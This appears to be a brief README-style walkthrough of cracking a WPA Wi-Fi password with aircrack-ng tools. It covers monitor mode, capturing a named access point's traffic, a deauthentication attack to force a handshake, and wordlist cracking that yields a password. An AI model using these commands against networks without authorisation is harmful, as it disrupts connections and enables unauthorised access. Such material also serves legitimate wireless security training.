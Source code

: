 `sudo airmon-ng check kill`  
So as to kill processes that might disturb network monitoring.  

`sudo airodump-ng wlan0mon`
network monitoring with `wlan0mon`  NIC  (network interface card)  
![Dear image, I hope you'll work how I... imagine](img/airodump-ng-1.png)

`sudo airodump-ng --bssid BA:18:69:CC:1E:61 -c 11 --write WPAcrack wlan0mon`  
`--bssid` Target's MAC, `-c` channel, `--write` output name (WPA hash for cracking later)  
![Mama dala corce bulke](img/airodump-ng-2.png)

`sudo aireplay-ng --deauth 30 -a BA:18:69:CC:1E:61 wlan0mon`  
`--deauth 30` We're sending 30 packets so as to break connection for a while  
Because of this we'll be able to capture handshake (and password hash for later cracking)  
![nasmarowana maslem](img/airodump-ng-3.png)

`sudo aircrack-ng WPAcrack-01.cap -w rockyou_50.txt`  password hash cracking
![wcinaj](img/aircrack-ng-1.png)
Password: 123456qwerty  
- might be faster to use `hashcat` instead of `aircrack-ng` wrapper


`dhclient eth0`  after wifi hacking NIC might have some problems. This command might help
